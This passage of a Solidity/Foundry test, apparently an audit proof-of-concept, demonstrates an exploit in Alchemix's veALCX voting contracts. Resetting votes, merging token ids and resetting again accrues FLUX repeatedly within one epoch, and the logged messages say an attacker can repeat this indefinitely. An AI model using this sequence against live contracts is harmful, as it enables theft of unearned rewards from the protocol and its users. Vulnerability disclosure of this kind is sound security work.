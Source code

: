 ``` 

        skip(2 weeks + 2);

        vm.startPrank(address(voter));

        minter.updatePeriod();

        vm.stopPrank();

        vm.startPrank(holder);

        voter.reset(id1);
        voter.reset(id2);


        uint256 unclaimedBalance2 = flux.getUnclaimedFlux(id1);

        console.log("The FLUX Balance of id1 or id2 after resetting is : ", unclaimedBalance2);


        console.log("now we will merge id1 & id2 to id3");

        veALCX.merge(id1, id3);
        veALCX.merge(id2, id3);


        uint256 unclaimedBalance3 = flux.getUnclaimedFlux(id3);

        console.log("The id3 FLUX Balance after merging with the 2 ids is : ", unclaimedBalance3);

        voter.reset(id3);


        console.log("<---------------->");
        console.log("we can now accrue flux when resetting even if we already accrued previously for id 1 & 2 in the same epoch!!");


        uint256 unclaimedBalance4 = flux.getUnclaimedFlux(id3);

        console.log("The FLUX Balance after resetting the new merged token id3 is : ", unclaimedBalance4);

        console.log("<---------------->");
        console.log("If we subtract the total final flux balance with exploit - balance in normal sitaution(in test above)");
        console.log("the user now with the same balance in the previous test could gain 191234164129883298893351 more flux !");
        console.log("and the attacker can repeat that INFINITELY ");


  }

}
```
